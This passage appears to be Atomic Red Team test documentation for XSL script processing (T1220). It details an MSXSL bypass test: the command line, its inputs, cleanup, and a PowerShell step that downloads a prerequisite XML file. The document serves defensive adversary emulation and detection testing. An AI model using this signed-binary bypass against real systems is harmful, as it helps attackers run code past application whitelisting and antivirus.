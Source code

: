 - [Atomic Test #4 - WMIC bypass using remote XSL file](#atomic-test-4---wmic-bypass-using-remote-xsl-file)

<br/>

## Atomic Test #1 - MSXSL Bypass using local files

Executes the code specified within a XSL script tag during XSL transformation using a local payload.
Requires download of MSXSL. No longer available from Microsoft.
(Available via Internet Archive https://web.archive.org/web/20200825011623/https://www.microsoft.com/en-us/download/details.aspx?id=21714 )
Open Calculator.exe when test successfully executed, while AV turned off.

**Supported Platforms:** Windows

**auto_generated_guid:** ca23bfb2-023f-49c5-8802-e66997de462d

#### Inputs:

| Name      | Description                                                   | Type | Default Value                                                 |
| --------- | ------------------------------------------------------------- | ---- | ------------------------------------------------------------- |
| xmlfile   | Location of the test XML file on the local filesystem.        | path | PathToAtomicsFolder&#92;T1220&#92;src&#92;msxslxmlfile.xml    |
| xslfile   | Location of the test XSL script file on the local filesystem. | path | PathToAtomicsFolder&#92;T1220&#92;src&#92;msxslscript.xsl     |
| msxsl_exe | Location of the MSXSL executable.                             | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;msxsl.exe |

#### Attack Commands: Run with `command_prompt`!

```cmd
"#{msxsl_exe}" "#{xmlfile}" "#{xslfile}"
```

#### Cleanup Commands:

```cmd
del "#{msxsl_exe}" >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: XML file must exist on disk at specified location (#{xmlfile})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{xmlfile}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{xmlfile}") -ErrorAction Ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1220/src/msxslxmlfile.xml" -OutFile "#{xmlfile}"
```
